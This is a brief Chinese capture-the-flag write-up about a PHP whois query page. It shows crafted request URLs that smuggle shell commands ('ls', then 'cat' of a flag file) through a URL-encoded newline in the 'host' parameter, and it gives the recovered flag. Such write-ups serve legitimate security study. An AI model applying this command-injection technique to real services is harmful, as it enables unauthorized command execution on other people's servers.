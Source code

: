 这个题根据提示，下意识输入：
```url
query.php?host=whois.service
```
显示源码：
![[Pasted image 20231202214122.png]]

构造poc：
```
query.php?host=whois.verisign-grs.com%0a&query=ls
```
![[Pasted image 20231202214314.png]]
再次构造poc：
```
query.php?host=whois.verisign-grs.com%0a&query=cat%20thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```
![[Pasted image 20231202214503.png]]
拿到flag：
```
shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}
```